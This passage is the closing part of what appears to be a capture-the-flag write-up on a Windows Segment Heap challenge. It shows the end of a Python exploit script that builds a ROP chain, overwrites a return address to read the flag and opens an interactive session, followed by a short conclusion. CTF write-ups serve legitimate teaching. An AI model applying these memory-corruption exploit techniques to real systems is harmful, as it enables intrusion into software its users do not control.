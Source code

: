 ```python
    p64(0x0)+
    p64(0x0)+
    p64(read_file)+
    p64(bin_base+0x2050)+
    p64(0)+
    p64(0)+
    p64(0))

print(f"[+] ROP chain start: {hex(pop_rcx)}")

# Win
write_absolute(p, read_ret_addr, rop_chain)
flag = get_value(p, 8)
print(f"[!!!] FLAG: {flag}")
p.interactive()
```

## Conclusion
Overall I found this challenge to be a fun learning experience, being a great introduction to the Windows Segment Heap. I'd like to thank [Angelboy](https://twitter.com/scwuaptx) for creating this problem and can only hope for more Windows challenges in the future :)

